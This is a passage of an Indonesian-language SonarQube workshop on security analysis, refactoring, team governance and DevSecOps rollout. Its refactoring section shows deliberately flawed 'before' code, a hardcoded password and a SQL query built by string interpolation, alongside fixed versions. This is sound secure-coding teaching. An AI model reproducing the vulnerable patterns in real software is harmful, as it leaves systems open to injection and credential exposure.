> aside positive
> Ini adalah inti dari **DevSecOps** - keamanan dan kualitas terintegrasi otomatis dalam development workflow.

### ✅ Hands-on: Setup CI/CD

1. Fork repo `sonarqube-training-cicd-demo`
2. Tambahkan GitHub Secrets (`SONAR_TOKEN`, `SONAR_HOST_URL`)
3. Push ke main → lihat scan berjalan di Actions
4. Buat branch baru → tambah kode buggy → buat PR
5. Lihat Quality Gate status di PR

## Modul 8 - Security Analysis & Vulnerability Management
Duration: 15:00

### SAST - Static Application Security Testing

SonarQube melakukan **SAST** - menganalisis source code tanpa menjalankannya.

| Metode | Kapan | Apa yang dianalisis |
|--------|-------|---------------------|
| **SAST** (SonarQube) | Saat development/CI | Source code |
| **DAST** | Saat testing | Running application |
| **SCA** | Saat build | Dependencies/library |

### Vulnerability vs Security Hotspot

| | Vulnerability | Security Hotspot |
|-|---------------|------------------|
| **Apa** | Issue yang **pasti** berisiko | Issue yang **mungkin** berisiko |
| **Aksi** | Harus di-fix | Perlu di-review |
| **Contoh** | SQL Injection terdeteksi | Penggunaan crypto - apakah sudah benar? |

### Triage Workflow

Untuk **Security Hotspot**, Anda harus melakukan triage:



Status triage:
- **To Review** - belum ditinjau
- **Acknowledged** - sudah dilihat, akan ditangani nanti
- **Fixed** - sudah diperbaiki
- **Safe** - tidak berisiko setelah ditinjau (dismiss)

### Severity Classification

| Severity | Dampak | Contoh |
|----------|--------|--------|
| **Blocker** | Sistem crash / data breach | SQL Injection tanpa proteksi |
| **Critical** | Risiko tinggi | Hardcoded credentials |
| **Major** | Risiko medium | Weak encryption |
| **Minor** | Risiko rendah | Verbose error message |
| **Info** | Informasional | Best practice suggestion |

### OWASP Detection di SonarQube

SonarQube mendeteksi banyak OWASP Top 10 issues:

| OWASP | Kategori | Deteksi SonarQube |
|-------|----------|-------------------|
| A01 | Broken Access Control | ✅ Beberapa rule |
| A02 | Cryptographic Failures | ✅ Weak hash, weak cipher |
| A03 | Injection | ✅ SQL, XSS, LDAP, Command injection |
| A05 | Security Misconfiguration | ✅ CORS, debug settings |
| A07 | Auth Failures | ✅ Hardcoded credentials |
| A09 | Logging Failures | ✅ Sensitive data in logs |

### ✅ Hands-on: Security Review

1. Buka project Anda di SonarQube
2. Navigasi ke tab **Security Hotspots**
3. Review setiap hotspot - pilih **Safe** atau **Not Safe**
4. Navigasi ke tab **Vulnerabilities**
5. Klik vulnerability → baca penjelasan dan rekomendasi fix
6. Catat: berapa vulnerability yang ditemukan? Apa severity-nya?

## Modul 9 - Best Practice Refactoring
Duration: 20:00

### Strategi: Clean as You Code

Jangan coba fix semua issue sekaligus! Gunakan pendekatan **incremental:**

```
Kode Lama (Legacy)     →  Biarkan, fix gradually
Kode Baru (New Code)   →  HARUS bersih dari awal
```

### Refactoring Techniques

#### 1. Extract Function
```typescript
// BEFORE: Function terlalu panjang
function processOrder(order: any) {
  // validasi (20 baris)
  // hitung total (15 baris)
  // apply discount (10 baris)
  // simpan ke database (10 baris)
  // kirim email (10 baris)
}

// AFTER: Dipecah
function processOrder(order: Order) {
  validateOrder(order);
  const total = calculateTotal(order);
  const finalPrice = applyDiscount(total, order.coupon);
  await saveOrder(order, finalPrice);
  await sendConfirmationEmail(order);
}
```

#### 2. Replace `any` with Proper Types
```typescript
// BEFORE
function getUser(id: any): any {
  // ...
}

// AFTER
interface User {
  id: number;
  name: string;
  email: string;
}

function getUser(id: number): Promise<User> {
  // ...
}
```

#### 3. Fix Security Issues
```typescript
// BEFORE: Hardcoded credentials
const DB_PASSWORD = "secret123";

// AFTER: Environment variables
const DB_PASSWORD = process.env.DB_PASSWORD;

// BEFORE: SQL Injection
const query = `SELECT * FROM users WHERE id = ${id}`;

// AFTER: Parameterized query
const query = `SELECT * FROM users WHERE id = $1`;
const result = await pool.query(query, [id]);
```

#### 4. Remove Duplication
```typescript
// BEFORE: Copy-paste code
function calculateShipping(weight: number, zone: string) {
  let base = weight * 2.5;
  if (zone === "domestic") return base * 1.1;
  if (zone === "international") return base * 2.5;
  return base;
}

function calculateInsurance(weight: number, zone: string) {
  let base = weight * 2.5;  // DUPLIKAT!
  if (zone === "domestic") return base * 0.5;
  if (zone === "international") return base * 1.2;
  return base;
}

// AFTER: Extract common logic
function calculateBaseRate(weight: number): number {
  return weight * 2.5;
}

function calculateShipping(weight: number, zone: string) {
  const base = calculateBaseRate(weight);
  const multiplier = zone === "domestic" ? 1.1 : zone === "international" ? 2.5 : 1;
  return base * multiplier;
}
```

#### 5. Add Error Handling
```typescript
// BEFORE: Empty catch block
try {
  await saveData(data);
} catch (e) {
  // do nothing  ← CODE SMELL!
}

// AFTER: Proper error handling
try {
  await saveData(data);
} catch (error) {
  logger.error('Failed to save data', { error, data: data.id });
  throw new DatabaseError('Save operation failed', { cause: error });
}
```

### ✅ Hands-on: Fix & Rescan

1. Buka source code sample project
2. Pilih **3 issues** dari dashboard SonarQube:
   - 1 Bug
   - 1 Vulnerability
   - 1 Code Smell
3. Fix di code editor
4. Scan ulang: `npx sonar-scanner`
5. Bandingkan dashboard **before** vs **after**
6. Diskusikan: apa yang berubah?

## Modul 10 - SonarQube untuk Tim & Organisasi
Duration: 10:00

### Role & Permission

SonarQube memiliki sistem permission berbasis role:

| Role | Hak Akses |
|------|-----------|
| **Admin** | Full access - konfigurasi, user management |
| **Quality Gate Admin** | Manage Quality Gates |
| **Quality Profile Admin** | Manage Quality Profiles |
| **Project Admin** | Manage specific project settings |
| **User** | Lihat hasil scan |
| **Codeviewer** | Lihat source code di SonarQube |
| **Issue Admin** | Manage issues (false positive, etc.) |

### Multi-Project Management

Untuk organisasi dengan banyak project:

1. **Project Tags** - Kategorikan project (backend, frontend, mobile)
2. **Portfolio** (Enterprise) - Aggregate view dari multiple projects
3. **Application** (Enterprise) - Gabungkan project yang terkait

### Governance & Reporting

**Untuk Manajemen:**
- Dashboard overview - semua project dalam satu halaman
- Trend: apakah kualitas kode **membaik** atau **memburuk**?
- Quality Gate status per project
- Biggest risk: project mana yang paling bermasalah?

**Contoh Report ke Manajemen:**
```
=== Monthly Code Quality Report ===

Total Projects: 12
Quality Gate PASS: 9 (75%)
Quality Gate FAIL: 3 (25%)

Top Issues:
1. Project-A: 15 vulnerabilities (CRITICAL)
2. Project-B: Coverage dropped to 40%
3. Project-C: 200+ new code smells

Recommendation:
- Prioritaskan fix security issues di Project-A
- Tambah unit test di Project-B sprint depan
- Code review lebih ketat di Project-C
```

### Best Practice Implementasi di Organisasi

1. **Mulai dari project baru** - jangan paksa project lama langsung sempurna
2. **Quality Gate bertahap** - mulai longgar, ketatkan perlahan
3. **Training developer** - pastikan semua paham cara baca dashboard
4. **Integrate ke CI/CD** - enforcement otomatis
5. **Regular review** - weekly/monthly quality review meeting

## Modul 11 - Final Project: Scan Project Anda Sendiri!
Duration: 30:00

### Saatnya Praktek dengan Project Real Anda! 🚀

Sejauh ini kita sudah berlatih dengan sample project. Sekarang waktunya scan **project Anda sendiri** - project yang Anda kerjakan di kantor/kuliah/side project.

### Instruksi

Anda adalah Tech Lead di perusahaan. Management meminta Anda untuk:

1. Setup code quality scanning untuk project Anda
2. Definisikan standar kualitas (Quality Gate)
3. Presentasikan hasil & rekomendasi ke tim

### Langkah-langkah

#### Step 1: Siapkan Project Anda (5 menit)
- Pilih **project real** yang Anda miliki (TypeScript, JavaScript, Java, Python, PHP, dll)
- Pastikan source code ada di laptop
- Jika belum punya, Anda bisa fork project open-source favorit Anda

> aside positive
> Project bahasa apapun bisa di-scan! SonarQube mendukung 30+ bahasa.

#### Step 2: Setup & Scan Pertama (10 menit)
1. Buat project baru di SonarQube: `[NAMA]-real-project`
2. Buat `sonar-project.properties` di root project Anda:
```properties
sonar.projectKey=[nama]-real-project
sonar.projectName=[NAMA] Real Project
sonar.sources=src
sonar.host.url=http://sonar-training.duckdns.org
sonar.token=YOUR_TOKEN
sonar.exclusions=**/node_modules/**,**/dist/**,**/build/**
```
3. Jalankan scan: `npx sonar-scanner`

#### Step 3: Analisis Hasil (5 menit)
- Baca dashboard - catat metrik awal:
  - Bugs: ___
  - Vulnerabilities: ___
  - Code Smells: ___
  - Coverage: ___
  - Quality Gate: PASS / FAIL

#### Step 4: Fix Issues (15 menit)
- Pilih **3 issue paling kritis** (minimal 1 vulnerability jika ada)
- Fix di code editor - perhatikan SonarQube for IDE di VS Code juga menandai issue yang sama!
- Scan ulang: `npx sonar-scanner`
- Catat improvement

#### Step 5: Presentasi (5 menit per peserta)
- **Project apa?** Bahasa apa, berapa besar?
- **Before:** Metrik awal - rating, jumlah issue
- **After:** Metrik setelah improvement
- **Top findings:** Issue paling menarik/mengejutkan yang ditemukan
- **Rekomendasi:** Apa rencana Anda untuk meningkatkan kualitas project ini?
- **Lesson learned:** Apa yang Anda pelajari dari exercise ini?

> aside positive
> Tidak ada jawaban benar atau salah - fokus pada proses dan pemahaman. Tanyakan jika Anda stuck!

## Modul 12 - Review & Rekomendasi Implementasi
Duration: 10:00

### Checklist: Apa yang Sudah Kita Pelajari

- ✅ Code Quality & Secure Coding fundamentals
- ✅ Arsitektur & komponen SonarQube
- ✅ Instalasi & konfigurasi
- ✅ Menjalankan scan & membaca hasil
- ✅ Memahami metrik & dashboard
- ✅ Custom Quality Gate & Quality Profile
- ✅ Integrasi CI/CD (GitHub Actions)
- ✅ Security analysis & triage
- ✅ Refactoring techniques
- ✅ Manajemen untuk tim & organisasi

### Roadmap Implementasi di Perusahaan



### End-to-End DevSecOps Flow

Berikut adalah **alur DevSecOps** yang mengintegrasikan SonarQube ke dalam pipeline development dan security review di organisasi:



**Penjelasan setiap tahap:**

| # | Tahap | Apa yang Terjadi |
|---|-------|------------------|
| 1 | **Developer** | Developer menulis kode dalam berbagai bahasa (TypeScript, Java, React Native, dll) lalu push ke GitHub |
| 2 | **Version Control** | GitHub menerima push/PR dan otomatis trigger CI/CD pipeline |
| 3 | **CI/CD Pipeline** | Jenkins mengambil source code terbaru dan menjalankan SonarScanner |
| 4 | **Security Analysis** | SonarQube menganalisis kode — mendeteksi bugs, vulnerabilities, code smells, dan security hotspots |
| 5 | **Notification** | Hasil scan dikirim melalui **dua jalur**: Jira ticket (untuk tracking) dan email (untuk notifikasi langsung ke assignee) |
| 6 | **Security Review** | Assignee dan tim Cybersecurity melakukan review meeting mingguan (contoh: setiap Selasa via Teams). Tim Cybersecurity mengirim laporan temuan balik ke developer via email |

> aside positive
> **Mulai dari yang sederhana.** Anda tidak perlu langsung implementasi semua tahap. Mulai dari **tahap 1–4** (Developer → GitHub → Jenkins → SonarQube), kemudian tambahkan notifikasi dan review meeting seiring waktu.

> aside negative
> **Yang sering terlewat:** Banyak tim hanya setup scanning-nya saja tapi lupa membangun **proses review dan feedback loop** (tahap 5–6). Tanpa itu, temuan SonarQube hanya jadi data yang tidak ditindaklanjuti.

### Best Practice Summary

| Do ✅ | Don't ❌ |
|-------|---------|
| Start with new code ("Clean as You Code") | Mencoba fix semua issue legacy sekaligus |
| Gradual enforcement | Langsung strict tanpa sosialisasi |
| Integrate ke CI/CD | Hanya scan manual |
| Regular review meeting | Set & forget |
| Training developer | Hanya enforce tanpa edukasi |
| Use SonarQube for IDE di IDE | Hanya rely pada SonarQube server |

### DevSecOps Maturity

| Level | Deskripsi |
|-------|-----------|
| **Level 0** | Tidak ada scanning |
| **Level 1** | Manual scan sesekali |
| **Level 2** | Scan di CI/CD, tapi tidak blocking |
| **Level 3** | Quality Gate enforce di pipeline **(BLOCKING)** |
| **Level 4** | Full DevSecOps - SAST + DAST + SCA + monitoring |

### Next Steps untuk Anda

Gunakan **Roadmap Implementasi** di atas sebagai panduan bertahap:

| Fase | Timeframe | Target |
|------|-----------|--------|
| **Setup** | Bulan 1 | Install SonarQube, scan 2-3 project utama, training developer, aktifkan Quality Gate "Sonar Way" secara soft |
| **Integration** | Bulan 2 | Integrate CI/CD ke semua repo, buat Custom Quality Gate, fix critical vulnerabilities, mulai weekly quality review |
| **Enforcement** | Bulan 3 | Block merge jika gate fail, aktifkan coverage requirement, monthly report ke management, pasang SonarQube for IDE di semua developer |
| **Maturity** | Bulan 6+ | Full DevSecOps pipeline, portfolio tracking, company-wide coding standard, continuous improvement |

> aside positive
> *"The best time to start measuring code quality was yesterday. The second best time is today."*

## Selamat! 🎉
Duration: 0:00

### Anda telah menyelesaikan SonarQube Training Workshop!

### Yang sudah Anda capai:

✅ Memahami konsep Code Quality & Secure Coding  
✅ Mengerti arsitektur SonarQube  
✅ Berhasil melakukan scanning project  
✅ Bisa membaca dashboard & metrik  
✅ Membuat custom Quality Gate  
✅ Mengintegrasikan SonarQube dengan CI/CD  
✅ Melakukan security analysis  
✅ Refactoring berdasarkan temuan SonarQube  
✅ Merencanakan implementasi di organisasi  

### Resources

- [SonarQube Documentation](https://docs.sonarqube.org/)
- [SonarQube Community](https://community.sonarsource.com/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Clean Code Guide](https://www.sonarsource.com/solutions/clean-code/)

### Terima Kasih!

Jika ada pertanyaan setelah workshop, silakan hubungi trainer.

Selamat mengimplementasikan SonarQube di organisasi Anda! 🚀
